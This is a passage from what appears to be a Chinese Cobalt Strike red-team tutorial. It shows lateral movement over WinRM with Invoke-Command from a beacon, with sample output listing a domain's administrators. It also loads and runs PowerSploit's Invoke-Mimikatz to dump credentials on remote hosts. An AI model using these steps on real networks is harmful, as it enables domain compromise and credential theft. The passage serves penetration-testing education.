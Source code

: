```powershell
……内容过多，余下部分省略……
```

**使用 WinRM 运行命令**

WinRM 运行在 5985 端口上，WinRM 是 Windows 远程管服务，使用 WinRM 可以使远程管理更容易一些。

如果想利用 WinRM 运行命令则可以使用下面的命令。

```powershell
powershell Invoke-Command -ComputerName TARGET -ScriptBlock {command here}
```

```powershell
beacon> powershell Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[*] Tasked beacon to run: Invoke-Command -ComputerName WinDC -ScriptBlock { net localgroup administrators}
[+] host called home, sent: 303 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
Administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```

注：如果命令运行失败可能是因为 WinRM 配置原因，可在 powershell 环境下运行 `winrm quickconfig`命令，输入 `y` 回车即可。

命令运行后的结果，WinRM 也将通过命令行进行显示，因此可以使用 Powershell 的 Invoke 命令来作为远程工具，而不使用其他的恶意软件来控制系统。

**通过 WinRM 运行 Mimikatz**

更进一步，甚至可以使用 PowerSploit 来通过 WinRM 运行 Mimikatz，只需要先导入 Invoke-Mimikatz.ps1 文件，再执行以下命令即可。

```powershell
powershell-import /path/to/Invoke-Mimikatz.ps1
powershell Invoke-Mimikatz -ComputerName TARGET
```

> 注：之前提了很多次的 PowerView 也是 PowerSploit 项目里众多 ps1 文件之一，Mimikatz 的 ps1 文件在 PowerSploit 项目的 Exfiltration 目录下，PowerSploit 项目下载地址：[https://github.com/PowerShellMafia/PowerSploit/](https://github.com/PowerShellMafia/PowerSploit/)

因为 beacon 上传文件大小限制在1MB，而 Invoke-Mimikatz.ps1 文件大小在 2 MB 多，因此直接运行 `powershell-import` 导入该文件会报错，这里可以选择使用 beacon 中的 upload 命令或者在当前会话的 File Browser 图形界面中上传该文件。

```powershell
upload C:\path\Invoke-Mimikatz.ps1
```

上传之后通过 dir 命令可以查看到文件被上传到了C盘下，之后可以运行以下命令来导入该文件。

```powershell
powershell import-module C:\Invoke-Mimikatz.ps1
```
